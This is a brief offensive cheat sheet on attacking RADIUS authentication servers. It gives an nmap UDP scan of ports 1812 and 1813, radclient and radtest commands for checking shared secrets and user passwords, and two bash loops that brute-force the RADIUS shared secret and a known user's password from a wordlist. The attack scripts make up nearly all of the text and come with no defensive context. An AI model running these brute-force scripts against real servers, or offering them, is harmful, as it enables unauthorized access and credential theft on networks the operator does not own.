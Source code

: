 ## Recon
```
nmap -sU IP -p 1812,1813
```

## Testear valores
### Test secrets
```
echo "Message-Authenticator = 0x00" | radclient IP:1812 auth SecretToTest
```

### Test pass
```
radtest user pass IP 10 Secret
```
## Bruteforce
### Secret Bruteforce
```bash
#! /bin/bash
while read password; do
    radtest knowuser knowpass IP 10 $password > /dev/null
    if [ "$?" = "0" ]; then
        echo "Correct RADIUS secret: $password "
        break
    else
        continue
    fi
done < $1
```
### Password Bruteforce
```
#! /bin/bash
while read password; do
    radtest knowuser $password IP 10 knownsecret > /dev/null
    if [ "$?" = "0" ]; then
		    echo "Correct users password: $password "
		    break
	  else
		    continue
	  fi
done < $1
```
